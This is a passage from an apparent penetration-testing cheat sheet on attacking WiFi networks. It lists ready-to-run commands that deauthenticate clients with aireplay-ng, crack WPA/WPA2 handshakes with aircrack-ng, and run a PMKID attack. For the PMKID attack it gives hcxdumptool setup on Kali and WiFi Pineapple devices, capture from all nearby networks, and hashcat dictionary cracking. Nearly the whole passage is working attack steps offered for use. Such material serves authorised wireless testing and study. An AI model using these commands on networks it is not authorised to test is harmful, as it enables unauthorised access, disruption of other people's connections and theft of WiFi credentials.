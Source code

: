 \[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack

Crack the WPA/WPA2 authentication without deauthenticating clients.

Install required tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install hcxdumptool
```

\[Optional\] Install required tool on WiFi Pineapple Nano:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```
